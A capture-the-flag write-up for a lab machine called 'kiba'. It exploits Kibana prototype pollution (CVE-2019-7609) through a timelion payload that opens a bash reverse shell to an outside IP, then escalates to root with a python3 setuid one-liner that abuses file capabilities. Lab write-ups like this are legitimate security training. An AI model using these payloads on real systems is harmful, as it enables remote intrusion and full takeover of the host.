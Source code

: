 # kiba

### kiba
Nmap scan shows ports 22,80 and 5601 open. By accessing `http://target_IP:5601` I can access a kibana dashboard. Kibana is an open-source data visualization dashboard for Elasticsearch.
![image](https://github.com/user-attachments/assets/52f4a0e4-160b-4088-bb72-0ecfb1157be4)<br />
From online search I found that this version of kibana is vulnerable to prototype pollution which leads to RCE, [CVE-2019-7609](https://github.com/LandGrey/CVE-2019-7609).
To exploit this, add go to the `timelion` section and add the following payload: 

    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.14.90.188/9001 0>&1\'");//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
Then visit the `canvas` section and the reverse shell should pop up:<br />
![image](https://github.com/user-attachments/assets/232b2398-41f9-4d0d-9a23-c843b902eb71)<br />
Now for privesc, I run linpeas and get this:<br />
![image](https://github.com/user-attachments/assets/9033ed8e-1d7a-4e96-a602-49719e615a7e)<br />
There's a very good explanation [here](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) about capabilities and how to exploit them.<br />
To exploit this instance, just move to `/home/kiba/.hackmeplease` and run `./python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'` to spawn a shell as root!

